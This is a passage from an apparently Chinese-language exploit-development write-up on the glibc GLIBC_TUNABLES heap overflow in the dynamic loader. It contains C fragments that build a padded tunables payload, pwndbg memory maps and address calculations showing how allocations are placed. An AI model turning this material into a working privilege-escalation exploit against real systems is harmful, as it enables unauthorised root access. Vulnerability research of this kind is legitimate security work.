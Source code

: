 ```plain
    for (size_t i = prefixLength; i < sizeof(fill) - 1; i++) {
        fill[i] = 'A';
    }
    fill[sizeof(fill) - 1] = '\0';
    void *allocatedMemory = __minimal_malloc(0xd00 + 1);
    free(allocatedMemory);

    return 0;
}
```

```plain
RAX  0x7f4109f8f2e0 ?— 0x0  
pwndbg> vmmap
0x7f4109f8c000     0x7f4109f90000 rw-p     4000 37000  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
> hex(0x7f4109f8f2e0 + 0xd01)
'0x7f4109f8ffe1'
> hex(0x7f4109f90000 - 0x7f4109f8ffe1)
'0x1f'
```

如果在程序的后续部分，通过 `malloc` 或其他内存分配函数再次请求超过剩余内存大小（0x1f 字节）的内存，系统可能会选择使用 `mmap` 来映射一个新的内存区域，以满足这个较大的分配请求。

**再次设置环境变量**

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void* __minimal_malloc(size_t size) {
    // 实现 __minimal_malloc 的代码，这里简单地使用标准库的 malloc 作为示例
    return malloc(size);
}
int main() {
    char *payload = (char*)__minimal_malloc(PAYLOAD_SIZE);

    const char *prefix = "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=";
    strcpy(payload, prefix);

    size_t prefixLength = strlen(prefix);
    for (size_t i = prefixLength; i < PAYLOAD_SIZE - 1; i++) {
        payload[i] = 'B';
    }
    payload[PAYLOAD_SIZE - 1] = '\0';
    free(payload);
    return 0;
}
```

```plain
*RAX  0x7f4109f52000 ?— 0x0     # malloc的返回值
pwndbg> vmmap
  0x7f4109f52000     0x7f4109f54000 rw-p     2000 0      [anon_7f4109f52]
> hex(0x7f4109f52000 + 0x100)
'0x7f4109f52100'
```
